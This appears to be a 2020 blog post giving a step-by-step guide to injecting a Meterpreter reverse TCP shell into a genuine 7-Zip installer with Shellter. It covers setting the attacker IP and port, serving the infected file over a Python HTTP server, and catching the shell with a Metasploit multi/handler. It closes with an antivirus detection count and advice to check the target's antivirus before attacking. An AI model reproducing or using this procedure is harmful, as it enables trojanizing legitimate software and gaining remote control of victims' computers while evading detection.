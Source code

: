 ```yaml
---
title: "Inject malicious code into PE using Shellter"
date: "2020-04-11"
layout: single
tags:
- Malware
categories:
- Blog-post
---
```


Hey everyone. 

This is for research and education purpose only. If you do something bad, do with your own risk.

Shellter is a dynamic shellcode injection tool, and the first truly dynamic PE infector ever created.
It can be used in order to inject shellcode into native Windows applications (currently 32-bit applications only).

Shellter Website: [https://www.shellterproject.com/](https://www.shellterproject.com/)

We gonna use this tool to inject our meterpreter reverse shell into a clean PE and we will start listening for the shell and execute the malware at the client side.

## Installation

Since Shellter is designed to be run on Windows operating systems, we will install wine

```
apt update
apt install shellter
dpkg --add-architecture i386 && apt-get update && apt-get install wine32 && apt install wine
```

## Download our clean PE file

In my case, I'm using 7zip installer.

```
wget https://www.7-zip.org/a/7z1900.exe
```

## Start shellter
```
shellter
```

![//pic1](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic1.PNG)

## Select Mode and PE path

Shellter can run in either Auto or Manual mode. So, in our case here, we gonna run using Auto mode by selecting `A`. You may want use manual mode for advance option.

For PE target, type the path of your PE location and ENTER.

![//pic2](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic2.PNG)


## Enable stealth mode

Let's wait for a second..

![//pic3](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic3.PNG)

Shellter will then ask us if we want Stealth Mode which it will restore the PE execution flow after our payload has been executed. Choose 'Y' for yes. Then ENTER.

![//pic4](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic4.PNG)

## Choose payload 

It will then ask us to choose between using those displayed payload or our own custom payload. 

Type 'L' for listed payload and select index '1' for Meterpreter reverse TCP payload.

![//pic5](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic5.PNG)

## Set your IP and Port for the payload

```
SET LHOST: 192.168.83.129
SET LPORT: 4444
```

Shellter then will do his job for us.

## PE Injection done

Shellter will tell us that our injection is verified

![//pic6](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic6.PNG)

## Transfering file

Transfer your malicious PE file to our Windows client. In my case, I'm using Python HTTP server.
```
python -m SimpleHTTPServer 8080
```

Go to our Windows client, navigate to our Kali Linux IP with port 8080 in web browser. Then, download the malicious PE file.

## Set up meterpreter listener

Setup our meterpreter listener to catch our reverse shell after execute the PE file

```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.83.129
lhost => 192.168.83.129
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.83.129:4444
```

## Execute and pwned

Soon we download the PE...

 ![//pic7](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic7.PNG)
 
Execute the malicious PE and take a look at our multi handler listener at our Kali Machine.

![//pic8](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic8.PNG)

As you can see above, the binary act normally and our payload is executed. Hooray.

![//pic9](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic9.PNG)

## Scan with VirusTotal

Scanning through VirusTotal results us 25/70 detection.

![//pic10](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic10.PNG)

As you can see, there is a lot of AV that doesnt detect this malware too.

![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic11.PNG)

So, make sure to gather information about our target client's AV first before attempt to attack.


## Thanks for reading
